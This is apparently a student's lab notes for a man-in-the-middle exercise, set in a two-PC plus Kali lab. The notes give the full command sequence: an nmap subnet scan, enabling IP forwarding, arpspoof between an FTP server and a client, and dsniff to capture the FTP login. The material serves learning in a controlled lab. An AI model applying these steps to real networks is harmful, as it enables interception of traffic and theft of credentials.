





Day6
ObjectiveMan In the middle attack 
Steps Open 2 windows and 1 kali.
Setup FTP server in PC1
Follow:
https://www.youtube.com/watch?v=ke3tnd73aUI Once check ftp working or not on PC2
Open kali and do nmap
nmap -Pn -sS -F 192.168.43.*
Identifying Victim

In kali install dsniff
#
apt install dsniff #
echo 1 > /proc/sys/net/ipv4/ip_forward #
sysctl -w net.ipv4.ip_forward=1 #
arpspoof -i eth0 -t <ftp IP(PC1)> -r <clientIP(PC2)> And the attach started

In new terminal
#
dsniff -i eth0 Now try logging in ftp from PC2

After we quit we find in our kali dsniffer windows

Terms
FTP Servers: FTP servers are used to setup a server where others can upload or download the files
Commands Windows
arp - a //to see ARP(address resolution protocol) table